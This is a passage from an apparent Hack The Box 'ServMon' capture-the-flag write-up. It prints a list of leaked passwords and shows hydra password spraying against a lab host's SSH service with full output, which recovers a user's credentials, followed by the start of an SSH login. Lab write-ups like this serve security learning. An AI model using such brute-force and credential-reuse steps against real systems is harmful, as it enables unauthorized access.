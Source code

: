     HTTP/1.1 200 OK
    Content-type: text/plain
    Content-Length: 156
    Connection: close
    AuthInfo:

    1nsp3ctTh3Way2Mars!
    Th3r34r3To0M4nyTrait0r5!
    B3WithM30r4ga1n5tMe
    L1k3B1gBut7s@W0rk
    0nly7h3y0unGWi11F0l10w
    IfH3s4b0Utg0t0H1sH0me
    Gr4etN3w5w17hMySk1Pa5$

We try this passwords against the NVMS authentication form but without success.

## SSH

As there is other services, we try our seven password against the SSH service.
We have two users `nathan` and `nadine`. Using `hydra` we easily find the creds
for nadine's SSH account.

    :::text
    kali@kali:~/pown/htb_servmon$ hydra -l nathan -P pass ssh://10.10.10.184
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-16 12:28:14
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
    [DATA] attacking ssh://10.10.10.184:22/
    1 of 1 target completed, 0 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-16 12:28:19
    kali@kali:~/pown/htb_servmon$ hydra -l nadine -P pass ssh://10.10.10.184
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-16 12:28:26
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
    [DATA] attacking ssh://10.10.10.184:22/
    [22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-16 12:28:35

We can the connect to the server using SSH and get the user flag.

    :::text
    kali@kali:~/pown/htb_servmon$ ssh nadine@10.10.10.184
    Microsoft Windows [Version 10.0.18363.752]
    (c) 2019 Microsoft Corporation. All rights reserved.
